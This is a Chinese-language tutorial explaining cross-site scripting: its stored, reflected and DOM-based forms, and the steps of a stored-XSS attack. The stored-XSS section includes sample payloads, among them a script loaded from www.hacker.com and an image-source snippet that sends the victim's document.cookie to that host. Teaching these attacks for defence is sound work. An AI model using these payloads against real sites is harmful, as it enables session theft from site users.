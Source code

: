 # 漏洞-跨站脚本攻击

## 1.1 简介

`XSS` :Cross Site Scripting，为不和层叠样式表(Cascading Style Sheets, CSS) 的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中 Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。在一开始的时候，这种攻击的演示案例是跨域的，所以叫"跨站脚本"。

`攻击原理:`XSS的原理是WEB应用程序混淆了用户提交的数据和JS脚本的代码边界，导致 浏览器把用户的输入当成了JS代码来执行。 

## **1.2 XSS**攻击

+ 存储型XSS
+ 反射型XSS
+ DOM型XSS

### 1.2.1**存储型**XSS

存储型XSS，也就是持久型XSS。攻击者上传的包含恶意JS脚本的信息被 Web应用程序保存到数据库中，Web应用程序在生成新的页面的时候如果包含 了该恶意JS脚本，这样会导致所有访问该网页的浏览器解析执行该恶意脚本。这 种攻击类型一般常见在博客、论坛等网站中

> 存储型是最危险的一种跨站脚本，比反射性XSS和Dom型XSS都更有隐蔽性。
>
> 因为它不需要用户手动触发，任何允许用户存储数据的web程序都可能存 在存储型XSS漏洞。
>
> 若某个页面遭受存储型XSS攻击，所有访问该页面的用户会被XSS攻击。

![image-20211219234426578](https://cdn.wuzx.cool/image-20211219234426578.png)

**攻击步骤:**

+ 攻击者把恶意代码提交到目标网站的数据库中
+ 用户打开目标网站，网站服务端把恶意代码从数据库中取出，拼接在HTML上返回给用户
+ 用户浏览器接收到响应解析执行，混在其中的恶意代码也被执行
+ 恶意代码窃取用户敏感数据发送给攻击者，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

存储型 XSS(又被称为持久性XSS)攻击常见于带有用户保存数据的网站功能，如 论坛发帖、商品评论、用户私信、留言等功能。

+ 简单攻击: `<script>alert('hello');</script>`

+ 获取cookie信息:`<script>alert(document.cookie)</script>`

+ 黑客窃取cookie: `用户窃取cookie，具体实现就是将用户的cookie值发送到黑客工具箱，那 么就需要将窃取用户cookie的js植入到系统中。考虑到窃取用户的js脚本过长不 宜直接编写脚本植入，可以通过外部脚本的方式实现`

  > <script src="http://www.hacker.com/script/hacker.js"></script>

+ 绕过浏览器同源策略:

  > 图片可以加载外部的数据源
  >
  > (function () {
  >     (new Image()).src = 'http://www.hacker.com/h?c=' +
  >
  > escape("url=" + document.location.href) +
  > escape('&cookie=' + document.cookie);
  >
  > })();

### 1.2.2 **反射型**XSS

反射型XSS，又称非持久型XSS，恶意代码并没有保存在目标网站，而是通 过引诱用户点击一个恶意链接来实施攻击。这类恶意链接有哪些特征呢?

主要有:

+ 恶意脚本附加到 url 中，只有点击此链接才会引起攻击 
+ 不具备持久性，即只要不通过这个特定 url 访问，就不会有问题
+  xss漏洞一般发生于与用户交互的地方

> 脚本入侵
>
> 获取cookie
>
> 构造DOM

### 1.2.3 **DOM**型XSS

DOM(Document Object Model)，DOM型XSS其实是一种特殊类型的反 射型XSS(不存储)，它是基于DOM文档对象模型的一种漏洞，而且不需要与 服务器进行交互(不处理)。

客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中 的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用
